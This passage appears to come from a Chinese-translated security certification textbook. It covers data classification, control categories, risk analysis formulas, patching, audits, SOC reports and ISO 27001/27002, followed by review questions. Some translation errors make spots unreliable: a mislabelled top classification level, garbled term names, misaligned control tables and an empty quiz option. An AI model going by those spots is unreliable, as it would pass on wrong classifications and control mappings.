信息生命周期也应基于数据的分类。组织被根据当地、州或政府的法律法规保留某些信息，特别是财务数据。

## 敏感性与关键性

敏感性是衡量数据处理的自由程度的指标。某些数据需要特殊的关注和处理，特别是当不恰的处理可能导致罚款、身份盗窃、财务损失、侵犯隐私或个人或多个人未经授权访问时。某些数据还受州或联邦法律的监管，并在发生披露时需要通知。

根据谁应该有权访问数据以及如果披露会造成多大损害为数据分配敏感性级别。这种敏感性的分配被称为数据分类。

关键性是衡量数据重要性的指标。被认为敏感的数据并不一定被认为是关键的。为特定数据集分配关键性级别必须考虑以下几个问题的答案：

- 如果发生灾难，你能够恢复数据吗？
- 恢复数据需要多久？
- 这种停机的影响是什么，包括公共声誉的损失？

当数据对组织的业务至关重要时，数据被认为是必需的。当必需数据不可用（即使是短暂）或其完整性存疑时，组织将无法运行。当数据对组织很重要，但在数据不可用时组织运营可以在预定时间内继续时，该数据被认为是强制的。

一旦理解并记录了数据的敏感性和关键性，组织应该建立数据分类系统。大多数组织使用商业业务分类系统或军事政府分类系统。

## 商业业务分类

商业公司通常使用四个主要的分类级别对数据进行分类，按敏感性从高到低排列：


1. 机密
2. 私有
3. 敏感
4. 公

机密数据包括贸易秘密、知识数据、应用程序代码以及其他一旦发生未经授权的披露会对组织产生严重影响的数据。此类级别的数据仅对组织内与数据主题相关的人员开放。访问机密数据通常每次都需要授权。机密数据在《信息自由法》下免于披露。大多数情况下，外部实体获得授权访问机密数据的唯一途径如下：

- 签署保密协议
- 遵守法院命令
- 作为政府项目或合同采购的一部分

私有数据包括与人员相关的任何信息，包括人事记录、医疗记录和工资信息，仅在组织内部使用。敏感数据包括组织财务信息，需要额外的措施来确保其 `CIA` 和准确性。公开数据是指披露后不对组织产生负面影响的数据。

## 军事和政府分类

军事政府实体通常使用五个主要的分类级别对数据进行分类，按敏感性从高到低排列：

1. 机密：绝密数据包括武器蓝图、技术规范、间谍卫星信息以及其他军事信息
   如果泄露，可能会对国家安全造成严重损害。
2. **秘密 (`Secret`)**：秘密数据包括部署计划、导弹安置和其他一旦泄露就可能严重损害国家安全的信息。
3. **机密 (`Confidential`)**：机密数据包括专利、商业秘密以及其他在未经授权的情况下泄露可能会对政府产生严重影响的信息。
4. **敏感但未分类 (`Sensitive but unclassified`)**：敏感但未分类的医疗或其他个人数据可能对国家安全造成严重损害，但会导致公民对政府信誉产生质疑。
5. **非密 (`Unclassified`)**：不属于上述其他四类别的军事和政府信息被视为非密，通常必须根据《信息自由法》向公众公开。

# 控制 (`Controls`)

控制措施是针对已识别漏洞的应对措施。控制机制分为七大类：


- **补偿性 (`Compensative`)**：实施补偿性控制是为了替代主要的访问控制并主要用于降低风险。通过使用补偿性控制，你可以将风险降低到更易于管理的水平。补偿性控制的示例包括需要两个授权人的签名才能释放敏感或机密信息，以及需要不同人员拥有的两把钥匙才能安全箱。
- **纠正性 (`Corrective`)**：实施纠正性控制是为了减少攻击或其他不良事件的影响。使用纠正性控制可以修复或恢复被攻击的实体。纠正性控制的示例包括安装灭火器、隔离或终止连接、实施新的防火墙规则，以及使用服务器镜像恢复到之前的状态。
- **检测性 (`Detective`)**：实施检测性控制是为了在攻击发生时检测出来并提醒相关人员。检测性控制的示例包括运动检测器、入侵检测系统 (`IDS`)、日志、警卫、调查和工作轮换。
- **威慑性 (`Deterrent`)**：威慑性控制旨在威慑或阻碍攻击者。通过威慑性控制，可以在过程早期发现攻击。威慑性控制通常会触发预防性和纠正性控制。威慑性控制的示例包括用户识别和认证、围栏、照明和组织安全策略，例如保密协议 (`NDA`)。
- **指令性 (`Directive`)**：指令性控制规定了组织内部可以接受的做法。它们的目的是直接向员工正式化组织的安全要求。最流行的指令性控制是接受使用策略 (`AUP`)，它列出了人员必须遵循的适当（以及通常是不恰当的示例）程序和行为。任何组织安全策略或程序通常属于此类访问控制类别。你应该记住，只有在不遵守组织指令有明确后果的情况下，指令性控制才是有效的。
- **预防性 (`Preventive`)**：预防性控制防止攻击发生。预防性控制的示例包括锁、胸牌、生物识别系统、加密、入侵防御系统 (`IPS`)、防病毒软件、人员安全、保安、密码和安全意识培训。
- **恢复性 (`Recovery`)**：恢复性控制在攻击发生后恢复系统或设备。恢复性控制的主要目标是恢复资源。恢复控制的示例包括灾难恢复计划、数据备份和离地设施。

你实施的任何访问控制都属于一个或多个访问控制类别。

注意

访问控制还根据其提供的保护类型进行定义。访问控制类型将在本章后续部分进行讨论。

# 基于标准的控制选择 (`Control Selection Based on Criteria`)

针对特定漏洞选择什么控制措施取决于你打算处理漏洞的方式，以及潜在对成本与攻击者利用漏洞的成本之间的对比。以下章节将探讨这两个问题。

# 处理风险 (`Handling Risk`)

风险降低是根据风险分析改变组织应对要素的过程。在组织了解其风险后，必须确定如何处理风险。使用以下四种基本方法处理风险：


- **风险规避 (`Risk avoidance`)**：终止导致风险的活动或选择风险较低的替代
- **风险转移 (`Risk transfer`)**：将风险转移给第三方，例如保险公司
- **风险缓解 (`Risk mitigation`)**：定义组织可以承受的接受风险水平，并将风险降低到该水平
- **风险接受 (`Risk acceptance`)**：理解并接受风险水平以及可能发生的损害成本

风险分析有两种不同的类型：定量风险分析和定性风险分析。以下章节将讨论这两种方法。

# 定量风险分析 (`Quantitative Risk Analysis`)

定量风险分析为风险分析过程的所有方面分配货币值和数值，包括资产价值、威胁频率、漏洞严重性、影响、保护成本等。使用公式来确定总风险和剩余风险。最常用的公式是针对单次损失预期 (`SLE`) 和年度损失预期 (`ALE`)。

`SLE` 是每次威胁发生时的货币影响。要确定 `SLE`，你必须知道资产价值 (`AV`) 和暴露因子 (`EF`)。`EF` 是当威胁事件发生时将损失的资产百分比值或功能部分。获取 `SLE` 的计算公式如下：

```
SLE = AV x EF
```


`SLE = AV × EF`

例如，一个组织拥有一个价值为 $20,000 的 Web 服务器群。如果风险评估确定断电是 Web 服务器群的威胁要素源，且断电的 `EF` 为 25%，则该事件的 `SLE` 等于 $5000。

`ALE` 是年度威胁事件的预期风险因素。要确定 `ALE`，你必须知道 `SLE` 和年度发生率 (`ARO`)。`ARO` 是对威胁发生频率的估计。获取 `ALE` 的计算公式如下：

`ALE = SLE × ARO`

使用之前提到的示例，如果风险评估确定断电的 `ARO` 为 50%，则该事件的 `ALE` 等于 $2500。

利用 `ALE`，组织可以决定是否实施控制措施。如果保护 Web 服务器的控制措施成本高于 `ALE`，组织可以轻松地选择不实施控制以接受风险。如果保护 Web 服务器的控制措施成本低于 `ALE`，组织应该考虑实施控制措施。

请记住，尽管定量分析使用数值，但无法实现纯粹的定量分析，因为数据中始终存在某种程度的主观性。在我们的示例中，组织如何知道断电造成的损害将是 25%？这种估计应基于历史数据、行业经验和专家意见。

定量分析优于定性分析的优势是定量风险分析使用的猜测较少。定量风险分析的缺点包括公式复杂、完成分析所需的时间精力以及必须收集的数据水平。

# 定性风险分析 (Qualitative Risk Analysis)

定性风险分析不为风险分析过程的所有方面分配货币值和数值。定性风险分析技术包括直觉、经验和最佳实践技术，如脑风暴、焦点小组、调查、问卷、会议和访谈。虽然所有技术都可以使用，但大多数组织根据要评估的威胁确定最佳技术。需要对威胁进行经验教育。

被选择参与定性风险分析的每个小组成员都利用其经验对威胁发生的可能性和可能造成的损害进行排名。在每个小组成员对威胁可能性、损失潜力和保护优势进行排名后，将数据汇总并在报告提交给管理层。定性风险分析应代表所有层级的员工，但参与此过程的人员具有某些风险分析专业知识是至关重要的。

在进行风险分析时，组织会对其获得的任何估算遇到问题。这种对估算的缺乏的现象被称为“不确定性”，并以百分比的形式表示。任何关于风险评估的报告都应该包含不确定性水平。

大多数风险分析包含了定量和定性风险分析的混合使用。大多数组织倾向于对有形资产进行定量风险分析，对无形资产进行定性风险分析。

## 对策（控制措施）的选择

选择防护措施的最常见原因是该防护措施或控制措施的成本效益。在确定防护措施的总成本时，需要考虑规划、设计、实施和维护成本。要计算成本效益分析，请使用以下方程：

`(防护措施前的 ALE) - (防护措施后的 ALE) = (防护措施的年度成本)`

要完成此方程，你需要知道实施防护措施后的修订 `ALE`。实施防护措施可以改进 `ARO`（年度发生率），但不能完全消除它。在之前“定量风险分析”部分提到的示例中，该事件的 `ALE` 为 $2500。假设实施防护措施将 `ARO` 降低至 10%，则防护措施后的 `ALE` 计算为 `$5000 × 10%，即 $500`。你可以如下计算成本为 $1,000 的控制措施的防护价值：

```
$2500 - $500 - $1000 = $1000
```


在实施防护措施后了解修正后的 `ARO` 对于确定防护价值是必要的。如果防护措施的成本低于威胁被利用时可能发生的估计损失，则存在法律责任。

在此过程中，没有充分考虑防护措施的维护成本。组织应该仔细研究维护防护措施的成本。为了适当维护新的防护措施，通常需要新员工或进行广泛培训。此外，必须确定相关的人工成本。因此，防护措施的成本必须包含实施其实际成本加上任何培训成本、测试成本、人工成本等。其中某些成本可能难以识别，但详尽的风险分析将考虑到它们。

## 总风险 vs. 剩余风险

总风险是指组织决定不实施任何防护措施时可能遇到的风险。正如你所知，任何环境都不可能是完全安全的，因此你必须始终处理剩余风险。剩余风险是实施防护措施后留下的风险。剩余风险使用以下方程表示：

`剩余风险 = 总风险 – 对策`

该方程更多是为了概念性的思考，而不是用于实际计算。

## 组织定义的参数

虽然目前讨论关于控制及其选择的大多数概念适用于所有组织，但每个运行环境都呈现出独特的场景和情况，这些决定了独特的控制措施和方法。这些用于选择控制措施的组织定义参数应充分反映场景的敏感性，并恰当地处理眼下的漏洞。例如，由于处理信息的系统至关重要，特定组织可能被迫选择一种成本高于威胁预期损失的控制措施。

## 访问控制类型

访问控制根据其所提供的保护类型来定义。访问控制类别根据其在时间维度上的位置对访问控制进行分类，而访问控制类型则根据其实施方法划分访问控制。有三种类型的访问控制：

- 物理控制
- 逻辑（技术）控制
- 行政（管理）控制

访问控制将在第 3 章“建议并实施适当的响应和应对”中详细介绍，但控制措施示例及其类别在表 10-5 至 10-7 中所示。

表 10-5 列出了许多物理控制措施，并显示了这些控制措施所属的访问控制类别。

## 表 10-5. 物理控制

| 物理控制 | 补偿 | 纠正 | 侦测 | 威慑 | 指示 | 预防 | 恢复 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 围栏 | | | | X | | X | | |
| 锁 | | | | | | X | | |
| 保安 | | | X | | | X | | |
| 火灭器 | | X | | | | | | |
| 胸牌 | | | | | | X | | |
| 刷卡 | | | | | | X | | |
| 狗 | | | X | | | X | | |
| 人员通道 | | | | | | X | | |
| 生物识别 | | | | | | X | | |
| 照明 | | | | X | | | | |
| 运动探测器 | | | | X | | | | |
| 视频监控 (CCTV) | X | | X | | | | | |
| 数据备份 | | | | | | | X |
| 杀毒软件 | | | | | | X | | |
| 配置标准 | | | | | X | | | |
| 警告横幅 | | | | X | | | | |
| 热、温、冷备用场地 | | | | | | | X |

### 表 10-6. 逻辑（技术）控制

| 逻辑（技术）控制 | 补偿 | 纠正 | 侦测 | 威慑 | 指示 | 预防 | 恢复 |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| 密码 | | | | | | X | | |
| 生物识别 | | | | | | X | | |
| 智能卡 | | | | | | X | | |
| 加密 | | | | | | X | | |
| 协议 | | | | | | X | | |
| 防火墙 | | | | | | X | | |
| 入侵检测系统 (IDS) | | | | X | | | | |
| 入侵预防系统 (IPS) | | | | | | X | | | |
| 访问控制列表 | | | | | | | | | |
| 路由器 | | | | | | | | | | |
| 审计 | | | | | | | | | | |
| 监控 | | | | | | | | | | |
| 数据备份 | | | | | | | X | | |
| 杀毒软件 | | | | | | X | | | |
| 配置标准 | | | | | X | | | |
| 警告横幅 | | | | X | | | | | |
| 连接隔离 | | X | | | | | | |

### 表 10-7. 行政（管理）控制

| 行政（管理）控制 | 补偿 | 纠正 | 侦测 | 威慑 | 指示 | 预防 | 恢复 |
| :--- | :---: | :---: | :---: | :---: | :---: | :---: | :---: |
| 人员程序 | | | | | | | | |
| 安全策略 | | | | | | | | |
| 监控 | | | | | | | | | |
| 职责分离 | | | | | | | | | |
| 岗位轮岗 | | | | | | X | | | |
| 信息分类 | | | | | | X | | | |
| 安全意识培训 | | | | | | X | | | |
| 调查 | | | | | | | | | |
| 灾难恢复计划 | | | | | | | X | | |
| 安全审查 | | | | | | | | | |
| 背景检查 | | | | | | | | | |
| 终止 | | | X | | | | | |
| 监督 | X | | | | | | | |

为了支持安全策略及其部分的实施，应该定义并执行操作程序。一些常见的操作程序将在下面的节介绍。

## 持续监控

在进行持续监控之前，组织必须确保捕获操作基准。毕竟，如果不知道“正常”是什么，就无法识别异常模式或行为。这些基准还应该定期重新评估以确保它们没有变化。例如，如果将单台 `Web` 服务器升级为 `Web` 服务器群，则应该捕获新的性能基准。

安全分析师必须始终维护组织的安全态。这需要持续监控。审计和安全日志应按计划进行审查。性能指标应与基准进行比较。即使是简单的用户登录/注出时间也应该被监控。如果用户突然以不规则的时间登录登录，应通知其主管以确保用户已授权。组织必须密切监控企业。

持续监控工具的一个示例是 Microsoft 安全合规管理器 (SCM)。该工具可用于监控对基准的遵循情况。它与另外两个 Microsoft 工具配合使用：组策略和 `System Center` 配置管理器 (MSCCM)。

## 证据制作

计算机调查与常规调查需要不同的程序，因为调查人员的时间非常紧，并且可能需要专家协助调查。此外，计算机信息是无形的，通常需要额外的关注以确保其以原始格式保留。

在调查计算机犯罪时，必须考虑证据规则。计算机证据应当证明与案件相关的实质性事实，并且必须具有可靠性。必须维护监管链。如果产生计算机证据的过程没有记录，那么该证据在法庭上被采纳证据的可能性较低。

## 补丁

补丁管理通常被视为配置管理的一个子集。软件补丁是厂商发布的更新，用于修复操作系统、应用程序以及运行在网络设备上的固件版本中的功能问题，或关闭安全漏洞。

为了确保所有设备都安装了最新补丁，您应该部署一套正式系统，以确保所有系统在非生产环境经过彻底测试后接收到最新更新。厂商无法预判补丁对网络中关键业务系统可能产生的任何影响变化。企业有责任确保补丁不会对业务产生不利影响。

补丁管理生命周期包括以下步骤：

1. **确定补丁的优先级并安排补丁部署计划。**
2. **在部署前对补丁进行测试，确保其运行正常且不会导致系统或安全问题。**
3. **在生产环境中安装补丁。**
4. **补丁部署后，确保其运行正常。**

许多组织部署集中式补丁管理系统，以确保补丁及时部署。通过这种方式，管理员可以在部署到受影响的系统之前对所有补丁进行测试和审查。管理员可以安排更新在非高峰时段进行。

# 补偿控制开发

开发解决漏洞的控制是一个持续的过程，每当发现新漏洞时都会发生。您选择的控制类型很大程度上取决于以下因素：

- 漏洞暴露的概率
- 风险风险的敏感性
- 实现控制的成本与漏洞暴露的成本之间的对比

可以通过定量或定性风险分析进行成本效益分析。这在本章的前面的“处理风险”部分中已有详细介绍。

# 控制测试程序

对选的安全控制进行测试可以是手动过程，也可以是自动化的。手动审查技术依赖安全配置指南或清单，以确保系统设置能够最大限度地降低安全风险。评估人员观察设备上的各种安全设置，并将其与清单上的推荐设置进行比较。不符合最低安全标准的设置将被标记并报告。

安全内容自动化协议（`SCAP`）是一种利用特定标准来实现自动化漏洞管理、测量和策略合规性评估的方法。`NIST SCAP` 文件是为 `FISMA` 合规性和 `NIST SP 800-53A` 安全控制测试编写的。自动化工具可以直接执行在被评估的设备上或具有访问被评估设备网络权限的系统上。

自动化系统配置审查比手动方法更快，但某些设置必须手动检查。两种方法都需要 `root` 或管理员权限来查看选定的安全设置。

通常情况下，使用自动检查优于手动检查。自动检查可以非常快速完成，并提供一致、可重复的结果。让人工手动检查数百或数千个设置是枯燥且容易产生人为错误的。

# 管理异常

在控制测试过程中被标记的任何控制设置都必须正确处理。在某些情况下，只需纠正设置，但在其他情况下，决定并不那么简单。在某些情况下，建议的修复措施产生的问题（至少是立即）比它解决的问题要多。

对于修复漏洞但导致软件或系统功能出现立即问题的软件升级，情况尤为如此。组织可以将此类事件标记为对其在规定时间范围内解决漏洞的既定目标的异常。

在大多数情况下，异常会获得目标时间范围的延长；在其他情况下，异常可能被视为“无法解决”，组织只要使用该系统就必须接受现状。第三种可能的发展方式是，可能会获得多次延长，然后被认为不可解决。

# 修复计划

虽然说明修复计划最简单的方法是“直接修复问题”，但有时并不那么简单。以下因素可能会增加复杂性：

- **时间限制**：修复活动的时间不足。
- **治理**：团队没有授权处理问题，仅负责识别问题。
- **财务**：预算包含了安全测试，但不包含任何修复协助或重测。
- **培训**：培训不足导致了快速修复。
- **结果质量差**：测试人员没有清楚说明如何重现问题。

为了帮助避免这些障碍，请考虑以下最佳实践：

- 为安全测试和修复预留**预算**
- **简化**测试和重测流程
- **培训**开发团队安全编码实践
- **赋予**信息安全团队关于应用程序是否可以发布的最终决定权

最后，所有修复计划都应具有以下特征：

- **明确性**：它们应该清楚说明危险和预期结果。
- **可衡量性**：它们应该有特定的指标。
- **可行性**：它们应该是可以实现的。
- **相关性**：它们应该是对产生最大危险的风险的最快响应。
- **时限性**：它们应该有特定的截止日期。

# 验证与质量控制

在不进行验证和质量控制的情况下评估漏洞、选择控制并调整支持这些控制的安全策略和程序，就像开车开车。就像你无法获得引擎温度、速度和燃料水平的信息一样，你无法判断自己的努力是否有效。以下章节将讨论验证和质量控制过程。

## 审计

审计与内部评估的区别在于，它们通常最好由第三方执行。组织应作为任何安全评估和测试策略的一部分开展内部和第三方审计。审计应该测试当前实施的所有安全控制。作为良好安全审计计划的一部分，需要考虑的一些指南包括：

- 至少每年进行审计以建立安全基准。
- 确定组织的审计目标并与审计人员共享。
- 在审计开始前设定审计规则，包括审计日期/时间。
- 选择具有安全经验的审计人员。
- 在过程中早引入业务部门经理。
- 确保审计人员依赖经验而不仅仅是清单。
- 确保审计报告反映了组织识别出的风险。
- 确保审计执行得当。
- 确保审计覆盖所有系统以及所有策略和程序。
- 在审计完成后检查报告。

现在的许多法规都要求进行审计。组织过去依赖审计标准（`SAS`）70，该标准为审计人员提供了有关数据中心用户和财务报告相关的数据中心控制和过程的信息和验证。`SAS 70` 审计验证了数据中心建立的控制和过程是否得到了遵循。鉴保证业务标准（`SSAE`）16 是一项新的

## SOC

一种用于验证控制和流程的标准，并要求对所审查控制措施的设计和运行有效性提供书面声明。

`SSAE 16` 审计会产生服务组织控制（`SOC`）1 报告。该报告侧重于财务报告的内部控制。`SOC` 报告有两种类型：

- **SOC 1, Type 1 报告：** 重点关注审计师对数据中心管理层控制、系统和/或服务的设计的准确性和完整性的意见。
- **SOC 1, Type 2 报告：** 包含 `Type 1` 以及对特定时期内（通常为六个月到一年）控制措施有效性的审计。

此外还有另外两种报告类型：`SOC 2` 和 `SOC 3`。这两种审计都为系统及其信息的安全性、可用性、处理完整性、机密性或隐私相关的控制措施提供了基准。`SOC 2` 报告包含服务审计师的测试和结果，而 `SOC 3` 报告仅提供系统描述和审计意见。`SOC 3` 报告供通用使用，为数据中心运营商提供了一种认证级别，确保数据中心用户对设施安全、高可用性和流程完整性能够放心。表 10-8 简要比较了三种报告。

表 10-8. SOC 报告比较

| 报告类型 | 内容 | 谁使用 |
| :--- | :--- | :--- |
| SOC 1 | 财务报告的内部控制 | 用户审计师和用户 |
| SOC 2 | 安全、可用性、处理完整性、机密性或隐私控制 | 管理层、监管人员和其他；在非保密协议 (NDA) 下共享 |
| SOC 3 | 安全、可用性、处理完整性、机密性或隐私控制 | 公开发任何人 |

## 评估

评估通常通过将设置、状态和其他安全措施与基准进行比较来进行。它们由外部实体执行，但通常是一个内部过程。你可以将这些评估视为确保组织正在做其计划要做的事情。虽然某些评估是针对软件开发开发的，但这些概念也可以适用于这些过程。这是另一个可以支持的场景。

## 评定

评估可以是内部的也可以是外部的，侧重于当前控制、策略和程序的有效性。这些评估不是根据清单工作，而是试图确定控制措施是否被设计为存在。评估的一种方法是使用如 `Microsoft Baseline Analyzer` (MBSA) 等工具进行漏洞扫描。该工具可以扫描缺失的补丁、弱密码和不安全的配置。

## 成熟度模型

组织在开发漏洞评估流程、选择支持这些控制的控制和程序以及执行审计方面并不孤单。已经开发了一些出版物和流程模型来帮助开发这些技能。

## CMMI

能力成熟集成 (CMMI) 是一套涵盖软件开发生命周期所有阶段的综合指南。它描述了开发过程从事后（构建和修复）模型到包含持续改进计划的模型可以经历的一系列阶段或成熟级别。图 10-4 显示了其成熟级别。

## 成熟度级别的特征

## 认证

尽管这些术语在日常对话中作为同义词，但在保证级别和评分的背景下，认可（accreditation）和认证（certification）是两个不同的概念。然而，它们密切相关。认证评估技术系统组件，而认可发生在管理层接受系统整体安全性充分性时。

## NIACAP

国家信息保证认证与认可过程 (NIACAP) 提供了一套标准的活动、通用任务和管理结构，用于认证和认可维护系统或站点信息保证和安全态的系统。

`NIACAP` 开发的认可过程四个阶段：

- 阶段 1：定义
- 阶段 2：验证
- 阶段 3：确认
- 阶段 4：认可后

`NIACAP` 定义了以下三种类型的认可：

- 类型认可：评估分配到多个不同位置的应用程序或系统
- 系统认可：评估应用程序或支持系统
- 站点认可：评估特定自包含地点的应用程序或系统

## ISO/IEC 27001

`ISO/IEC 27001:2013` 是 27001 标准的最新版本，它是组织获取信息安全认证的最流行的标准之一。它为确保组织的信息安全管理体系 (ISMS) 得到妥善建立、管理、维护和改进提供了指导。它包括以下组件：

- `ISMS` 范围
- 信息安全策略
- 风险评估过程及其结果
- 风险处理过程及其决策
- 信息安全目标
- 信息安全人员胜任能力
- 必要的 `ISMS` 相关文档
- 运行规划和控制文档
- 信息安全监控和测量证据
- `ISMS` 内部审计计划及其结果
- 高层管理 `ISMS` 评审证据
- 已识别不符合项和纠正措施证据

当组织决定获得 `ISO/IEC 27001` 认证时，应选择一名项目经理以确保所有组件都正确完成。

实施 `ISO/IEC 27001:2013`，项目经理应完成以下步骤：

1. 获得管理支持。
2. 确定使用顾问还是内部完成工作、购买 27001 标准、编写项目计划、定义利益相关者并组织项目启动会议。
3. 识别需求。
4. 定义 `ISMS` 范围、信息安全策略和信息安全目标。
5. 开发文档控制、内部审计和纠正措施程序。
6. 执行风险评估和风险处理。
7. 制定适用性声明和风险处理计划并接受所有剩余风险。
8. 实施风险处理计划定义的控制措施并维护实施记录。
9. 开发并实施安全培训和意识计划。
10. 实施 `ISMS`，维护策略和程序并执行纠正措施。
11. 维护并监控 `ISMS`。
12. 执行内部审计并编写审计报告。
13. 执行管理评审并维护管理评审记录。
14. 选择认证机构并完成认证。
15. 维护监督访问记录。

欲了解更多请访问 `www.iso.org/iso/catalogue_detail?csnumber=54534`。

## ISO/IEC 27002

`ISO/IEC 27002:2013` 是 27002 标准的最新版本，它为信息安全管理提供了实践规范。它包括以下 14 个内容领域：

- 信息安全策略
- 信息安全组织
- 人力资源安全
- 资产管理
- 访问控制
- 密码学
- 物理环境安全
- 运行安全
- 通信安全
- 信息系统获取、开发和维护
- 供应商关系
- 信息安全事件管理
- 业务连续性的信息安全方面
- 合规性

## 考试准备任务

正如引言中“考试准备策略”节提到的，你有两种选择进行考试准备：这里的练习题、第 15 章“最终准备”，以及 Pearson IT 认证测试引擎中的模拟考试。

## 复习所有关键主题

复习本章最重要的主题，这些主题在页外边上已用“关键主题”（Key Topics）图标标记。表 10-9 列出了这些关键主题及其所在的页码。


表 10-9. 第 10 章关键主题

| 关键主题元素 | 描述 | 页码 |
| --- | --- | --- |
| 列表 | 重大立法 | |
| 列表 | 欧盟隐私保护原则 | |
| 表 10-2 | NIST SP 800-53 控制族 | |
| 列表 | 密码类型 | |
| 列表 | 密码管理考量因素 | |
| 列表 | 可接受使用策略 (AUP) 指南 | |
| 列表 | 商业业务分类 | |
| 列表 | 军事和政府分类 | |
| 列表 | 控制措施 | |
| 列表 | 风险处理 | |
| 列表 | 控制类型 | |
| 表 10-5 | 物理控制 | |
| 表 10-6 | 逻辑（技术）控制 | |
| 表 10-7 | 管理（管理层）控制 | |
| 步骤 | 补丁管理的生命周期 | |
| 表 10-8 | SOC 报告比较 | |

## 定义关键术语

定义本章中的以下关键术语，并对照词表检查你的答案：

- 《萨班斯-奥克斯利法》(SOX)
- 《健康保险可便利性与责任法》(HIPAA)
- 1999年《格拉姆-里奇-布莱利法》(GLBA)
- 《计算机欺诈与滥用法》(CFAA)
- 1974年联邦隐私法
- 1978年《联邦情报监视法》(FISA)
- 1986年《电子通信隐私法》(ECPA)
- 1987年《计算机安全法》
- 1991年美国联邦判刑指南
- 1994年《执法协助法》(CALEA)
- 《个人信息保护与电子文档法》(PIPEDA)
- 塞尔塞尔 II
- 2002年《联邦信息安全管理法》(FISMA)
- 1996年《经济间谍法》
- 美国《爱国者法》(USA PATRIOT Act)
- 2010年《医疗与教育协调法》
- 员工隐私问题与隐私预期
- NIST SP 800-53
- NIST 网络安全框架
- ISO/IEC 27000 系列
- 信息和相关技术控制目标 (COBIT)
- 谢尔德应用业务安全架构 (SABSA)
- 开放组架构框架 (TOGAF)
- IT 基础库 (ITIL)
- 标准单词密码
- 组合密码
- 静态密码
- 复杂密码
- 短语密码
- 认知密码
- 一次性密码 (OTP)
- 图形密码
- 全自动区分计算机与人类公共图灵测试 (CAPTCHA)
- 数字密码
- 密码寿命
- 密码历史
- 身份验证周期
- 密码复杂度
- 密码长度
- 可接受使用策略 (AUP)
- 数据所有权策略
- 数据留存策略
- 账户管理策略
- 数据分类策略
- 敏感性
- 关键性
- 补偿性控制
- 纠正控制
- 探测控制
- 威慑控制
- 指令控制
- 预防控制
- 恢复控制
- 风险规避
- 风险转移
- 风险缓解
- 风险接受
- 定量风险分析
- SLE
- AV
- EF
- ALE
- ARO
- 定性风险分析
- 总风险
- 剩余风险
- 保护措施
- 物理控制
- 逻辑（技术）控制
- 管理（管理层）控制
- 持续监控
- 异常
- 审计
- SOC 1
- SOC 2
- SOC 3
- 成熟模型
- 能力成熟度模型集成 (CMMI)
- 国家信息保证认证与认可流程 (NIACAP)

## 复习题

1. 下列哪项立法控制了组织的会计方法和财务报告？
- a. SOX
- b. HIPAA
- c. GLBA
- d. CFAA

2. 下列哪项有助于美国组织符合《欧盟隐私原则》？
- a. CFAA
- b. 安全港隐私原则
- c. FISMA
- d. PIPEDA

3. 下列哪项包含一个标准列表，每个标准解决信息安全管理体系 (ISMS) 的特定方面？
- a. NIST 800-55
- b. COBIT
- c. ISO 27000
- d. SABSA

4. 下列哪项是由管理和预算办公室在 OMB 循环 A-130 中开发的流程管理开发标准？
- a. TOGAF
- b. SABSA
- c. ISO 27000
- d. ITIL

5. 下列哪种密码类型使用了字典单词混合，通常是两个无关单词？
- a. 组合密码
- b. 复杂密码
- c. 短语密码
- d. 认知密码

6. 下列哪项密码策略控制密码的重复使用？
- a. 密码寿命
- b. 密码历史
- c. 身份验证周期
- d. 密码复杂度

7. Linux 密码存储在何？
- a. `/passwd/etc`
- b. `/etc/passwd`
- c. `/shadow/etc`

8. 下列哪项是系统中最高分类级别？
- a. 公共 (Public)
- b. 私有 (Private)
- c. 敏感 (Sensitive)
- d. 机密 (Confidential)

9. 下列哪种控制类型包含了身份识别和验证、围栏、照明以及组织保密协议 (NDA)？
- a. 探测
- b. 补偿
- c. 纠正
- d. 威慑

10. 下列哪种风险处理方法终止活动？
- a. 
- b. 规避
- c. 缓解
- d. 转移

# 第11章 修复身份与管理的安全问题

身份和访问管理是组织最关键的功能之一。正确执行时，它可以支持安全专业人员努力实现的机密性、完整性和可用性。执行错误时，会打开降低我们提供这些概念能力的漏洞潘多拉盒盒本章查看了身份和管理许多组件引发的一些安全问题，并提出了解决这些问题的某些修复建议。

## 4.0 安全架构与工具集

### 4.2 给场景，使用数据修复身份与管理相关的安全问题。

- **基于上下文认证的安全问题**：讨论了时间、频率和行为。
- **身份相关问题**：描述了人员、终端、服务、角色和应用程序产生的安全问题。
- **存储库相关问题**：涵盖了目录服务以及 `TACACS` 和 `RADIUS` 等 `AAA` 服务产生的问题。
- **联邦与单点登录相关问题**：讨论了由手动和自动配置/撤销以及自助服务密码重置产生的问题。
- **漏洞**：讨论了常见的漏洞，包括中间人攻击、会话劫持、跨站脚本、权限提升和根内核 (`rootkits`)。

## 我已经熟悉了吗？测试

“我已经熟悉了吗？”测试可以让你评估是否应该阅读整章内容。表 11-1 列出了本章的主要标题以及涵盖这些标题内容的“我已经熟悉了吗？”测试题，以便你评估对这些特定领域的认知。测试题答案位于附录 A，“‘我已经熟悉了吗？测试与复习题的答案”。

表 11-1. “我已经熟悉了吗？”基础主题章节与题目的映射

| 基础主题 | 题目编号 |
|---|---|
| 基于上下文认证的安全问题 | 1 |
| 身份相关问题 | 2 |
| 存储库相关问题 | 3 |
| 联邦与单点登录相关问题 | 4 |
| 漏洞 | 5 |

1. 你想要实现一种身份验证系统，该系统会考虑用户的位置和提交验证请求的时间。下列哪种解决方案可以在验证实体之前评估位置和时间？
- a. 基于上下文的认证
- b. 二级身份验证
- c. 增强身份验证
- d. 多因素身份验证

2. 最近，一名员工被发现通过观察用户输入登录凭据来窃取这些凭据。这种行为称为什么？
- a. 钓鱼
- b. 窥视
- c. 身份盗窃
- d. 翻找垃圾

3. 在 `Kerberos` 的缺陷导致了一些安全问题后，你正在探索一种同时使用对称加密和非对称加密，并扩展了 `Kerberos` 功能以修复其缺陷的身份验证协议。以下哪项是很好的选择？
- a. `LDAP`
- b. `DAP`
- c. `SESAME`
- d. `AD`

4. 你的组织与供应商的网络交换授权信息。以下哪项是由结构化信息标准促进组织（`OASIS`）开发的、用于交换此类信息的 `XML` 框架？
- a. `XAMCL`
- b. `SAML`
- c. `OpenID`
- d. `SPML`

5. 最近，一个恶意人员能够识别分配给已验证用户的唯一会话 `ID`，然后以该用户的身份连接到网站。这种攻击称为什么？
- a. 中人攻击
- b. 会话劫持
- c. `ARP` 毒化
- d. 跨站点脚本

## 基础主题

## 与基于上下文的身份验证相关的安全问题


基于上下文验证是在验证和授权实体之前考虑多个因素或属性的身份验证形式。因此，系统并不简单地依赖于正确凭据的展示，而是在做出访问决策时查看其他因素，例如主体所在的时间或位置。基于上下文的安全解决了许多非基于上下文系统所面临的问题。以下是它提供的一些关键解决方案：

